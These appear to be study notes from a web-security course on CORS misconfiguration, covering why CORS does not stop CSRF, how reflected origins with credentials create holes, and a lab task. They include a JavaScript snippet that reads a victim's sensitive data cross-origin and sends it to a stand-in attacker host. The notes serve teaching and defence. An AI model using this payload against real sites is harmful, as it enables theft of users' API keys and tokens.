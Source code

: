 
# Does CORS protect against CSRF?
- CORS does not provide protection against cross-site request forgery (CSRF) attacks, this is a common misconception.
- CORS is a controlled relaxation of the same-origin policy, so poorly configured CORS may actually increase the possibility of CSRF attacks or exacerbate their impact.
- There are various ways to perform CSRF attacks without using CORS, including simple HTML forms and cross-domain resource includes

# Vulnerabilities arising from CORS configuration issues
- Many modern websites use CORS to allow access from subdomains and trusted third parties. 
- Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.

# Server-generated ACAO header from client-specified Origin header
- Some applications need to provide access to a number of other domains. 
- Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. 
- So some applications take the easy route of effectively allowing access from any other domain.
- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. 
- For example, consider an application that receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
- It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.
- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. 
- If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```
# Lab: CORS vulnerability with basic origin reflection
- This website has an insecure CORS configuration in that it trusts all origins.
- To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. 
- The lab is solved when you successfully submit the administrator's API key.